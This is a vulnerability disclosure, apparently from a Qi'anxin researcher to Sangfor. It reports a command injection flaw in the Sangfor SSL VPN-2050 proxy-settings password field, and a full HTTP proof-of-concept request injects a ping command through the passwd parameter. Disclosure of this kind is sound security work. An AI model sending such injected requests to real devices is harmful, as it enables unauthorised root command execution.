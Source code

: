 Hi,

I am eack from Codesafe Team of Legendsec at Qi'anxin Group.
Recently, I found that the Sangfor SSL VPN-2050 has a command injection vulnerability. The attacker can obtain the root shell and execute arbitrary commands. The tested device firmware version is M7.6.3. The vulnerability details are as follows:
The vulnerability exists in gcs_webui.cgi, which corresponds to the password option under "System Maintenance - Proxy Settings" on the administration page.

Vulnerability code:
![2.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190626/1561536896867468.png)
The name parameter is filtered by the input_filter function, but the passwd parameter is not filtered, and it enters the call_DoShellProxy function. In this function, the popen execution command is finally called:
![4.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190626/1561537041874305.png)

The payload of the vulnerability recurrence is as follows:

GET /cgi-bin/gcs_webui.cgi?requestarg=2&requestname=17&csrf=cb9a5d4dc06ce4cad3afc633b966ef4c&enabled=1&ip=10.10.10.10&port=111&auth=1&name=aaa&passwd=123';ping%2010.92.2.110' HTTP/1.1
Host: 10.92.2.17:4430
Connection: close
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Referer: https://10.92.2.17:4430/html/gcs_proxyset.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zh_CN; TWFID=1a000798af849707; g_LoginPage=login_psw; VisitTimes=0; haveLogin=0; VpnLine=http%3A%2F%2F10.92.2.17%2F; sinfor_session_id=WA16F9E951F925B56F78666EFBF6DB22; PHPSESSID=e116e0e2c17bed877d1f825a77e6babf; usermrgstate=%7B%22params%22%3A%7B%22grpid%22%3A%22-100%22%2C%22recflag%22%3A0%2C%22filter%22%3A0%7D%2C%22pageparams%22%3A%7B%22start%22%3A0%2C%22limit%22%3A25%7D%2C%22otherparams%22%3A%7B%22searchtype%22%3A0%2C%22recflag%22%3Afalse%7D%7D; hidecfg=%7B%22name%22%3Afalse%2C%22flag%22%3Afalse%2C%22note%22%3Afalse%2C%22expire%22%3Atrue%2C%22lastlogin_time%22%3Atrue%2C%22phone%22%3Atrue%2C%22allocateip%22%3Atrue%2C%22other%22%3Afalse%2C%22state%22%3Afalse%7D; x-anti-csrf-gcs=29101CC400B01C4E

By capturing the packet, you can see that the command is executed:
![5.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190626/1561537784254353.png)
The vulnerability was tested successfully on both 4430 and 1000 ports.
Can fix the vulnerability by filtering the passwd parameter.

Best wishes 
